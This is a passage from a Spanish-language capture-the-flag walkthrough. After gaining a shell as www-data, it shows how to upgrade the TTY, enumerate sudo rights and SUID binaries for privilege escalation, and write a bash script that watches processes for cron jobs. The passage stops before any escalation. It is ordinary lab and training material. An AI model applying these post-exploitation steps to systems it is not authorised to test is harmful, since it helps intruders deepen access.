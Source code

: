 Si lanzamos en script ganamos accesso al systema.

```bash
whoami

www-data
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Tenemos que ver si tenemos que hacer un user pivoting pero como ya tenemos accesso a la flag, no es necessario.
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
uname -a
lsb_release -a
find \-perm -4000 2>/dev/null
```

Aqui no hay nada interesante, vamos a enumerar el systema por tareas cron

```bash
cd /dev/shm
ls
touch procmon.sh
chmod +x procmon.sh
nano procmon.sh
```

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
    old_process=$new_process
done
```
